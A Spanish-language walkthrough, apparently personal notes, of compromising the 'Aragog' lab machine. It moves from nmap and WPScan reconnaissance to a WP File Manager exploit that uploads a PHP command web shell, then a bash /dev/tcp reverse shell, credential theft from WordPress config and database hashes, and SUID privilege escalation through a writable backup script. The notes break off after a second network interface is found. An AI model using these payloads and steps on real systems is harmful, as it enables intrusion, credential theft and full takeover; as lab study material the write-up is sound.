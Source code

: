  #Aragog

`#WordPress #RCE #ReverseShell #MySQL #BruteForce #SUID`
[[192.168.1.21 (Atacante)]]
- Pwned
--------

Hacemos un primer reconocimiento con [[NMAP]]
`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 192.168.1.23 -oG allPorts`

Obtendremos los siguientes puertos:
```js
[*] IP Address: 192.168.1.23
[*] Open ports: 22,80
```

Hacemos un escaneo mas exhaustivo sobre estos dos puertos con [[NMAP]]
`nmap -p22,80 -sCV 192.168.1.23 -oN targeted`

Obtendremos la siguiente información de los puertos:
```js
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 48:df:48:37:25:94:c4:74:6b:2c:62:73:bf:b4:9f:a9 (RSA)
|   256 1e:34:18:17:5e:17:95:8f:70:2f:80:a6:d5:b4:17:3e (ECDSA)
|_  256 3e:79:5f:55:55:3b:12:75:96:b4:3e:e3:83:7a:54:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
```


### WEB

Con el servicio en el puerto 80 levantado, navegamos con Firefox a la IP y usamos [[WHATWEB]] para ver que contiene la web e información sobre esta:
`whatweb http://192.168.1.23/`

```python
http://192.168.1.23/ [200 OK] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.1.23]
```


Haremos una enumeración de la web con la herramienta [[GOBUSTER]]
`gobuster dir -u http://192.168.1.23/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 20 -x html,php,txt`

Nos enumerara los siguientes directorios:
```js
/index.html
/blog
/javascript
```

Si navegamos a `/blog` vemos que es un WordPress tendremos que añadirlo en el `/etc/hosts`, ahora recargamos la web y se vera el contenido como es.

Volveremos a enumerar el  [[00.- WORDPRESS]], con la herramienta [[WPSCAN]]
`wpscan --url http://192.168.1.23/blog/ --enumerate u,vp --plugins-detection aggressive`

Descubriremos un usuario llamado `wp-admin`, también si usamos el API token de [[WPSCAN]] podremos enumerar posibles vulnerabilidades. `$WPTOKEN` es una variable en la ZSHRC con el API token de WPScan
`wpscan --url http://192.168.1.23/blog/ --enumerate u,vp --plugins-detection aggressive --api-token=$WPTOKEN`

Al usar el Token lo que nos otorga son vulnerabilidades que ha habido sobre esa versión o esos plugins pudiendo así facilitarnos a la hora de realizar la explotación en esta caso usaremos el siguiente POC que nos otorga:
`https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9`

No da un script de Python con el POC, así que lo descargamos con wget:
`wget https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py`

Una vez descargado vemos en el código que llama a un archivo `.php` llamado `payload.php` lo creamos con el siguiente contenido que nos facilitara dar ordenes con el comando cmd:
```php
<?php
	echo"<pre>" . shell_exec($_REQUEST['cmd']) . "<pre>";
?>
```

Ahora una vez creado deberemos ejecutar el python:
`python3 2020-wp-file-manager-v67.py http://192.168.1.23/blog/`

Nos dará un código de estado 200 y nos indicara donde se encuentra el fichero que hemos creado, en este caso la siguiente:
`http://192.168.1.23/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php`

Al finalizar la URL podemos añadir `?cmd=<comando>` para ejecutar comandos en la cmd de la maquina victima.

Como tenemos ejecución remota de comandos `RCE` nos ponemos en nuestra maquina atacante en escucha en el puerto `443`
`nc -nlvp 443`

Y en la web nos lanzamos una reverse shell:
`bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0<%261"`

Obtendremos una shell y hacemos le tratamiento de la TTY

Navegamos a `/home` y veremos los usuarios y en usuario `hagrid98` encontramos el primer horocrux(Flag)

Para acceder a la información del wordpres buscamos en la ruta `cat /etc/apache2/sites-enabled/wordpress.conf`, y este nos dirá en donde se encuentra alojado el wordpress, que es en:
`/usr/share/wordpress`

En el `wp-config.php` no encontramos ninguna contraseña pero vemos que este esta llamando a `/etc/wordpress/config-default.php` así que lo leemos para ver que contiene

Y encontramos las credenciales del usuario root de la base de datos del wordpress `root::mySecr3tPass`

Nos conectamos en la base de datos `mysql -uroot -p` y cuando nos pida la contraseña la introducimos, listaremos las bases de datos:
`show databases;` vemos que hay una llamada wordpress, navegamos a ella
`use wordpress;` vemos las tablas que contiene
`show tables;` vemos la tabla `wp_users` así que listamos su contenido
`describe wp_users;` y seleccionaremos todo los que hay dentro de esta tabla
`select * from wp_users;` nos mostrara los usuarios con sus contraseñas las cuales se pueden crakear por fuerza bruta, nos la copiamos en un fichero llamado `hash` para intentar crackearlo con fuerza bruta.

Usaremos la herramienta [[JOHN THE RIPPER]]
`john --wordlist=/usr/share/wordlists/rockyou.txt hash `

Nos devolverá las credenciales del usuario `hagrid98::password123`

Nos podremos conectar con el usuario por `SSH`
`ssh hagrid98@192.168.1.23`

Vamos a buscar binarios que tengan permisos SUID como root
`find / -perm -4000 2>/dev/null` No encontramos nada relevante

Ahora buscamos en donde el propietario sea `hagrid`
`find / -user hagrid98 2>/dev/null`

Vemos un fichero en `/opt/.backup.sh` que puede ser sospechoso y el usuario es `hagrid`
Este fichero lo que hace es realizar una copia de forma recursiva de un fichero a otro fichero

Alteraremos el script para que la bash tenga de privilegios `4755` para que sea SUID y tener propietario root y así poder lanzarla como root
`nano /opt/.backup.sh`

```bash
#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads 
chmod u+s /bin/bash
```

Esta linea que añadimos es la que nos cambia los permisos a SUID a la bash

Ejecutamos `bash -p` una vez la bash tenga los permisos SUID, y seremos el usuario root

Hacemos un `hostname -I` y vemos que hay otra interfaz con la ip [[10.10.0.4 (Aragog)]



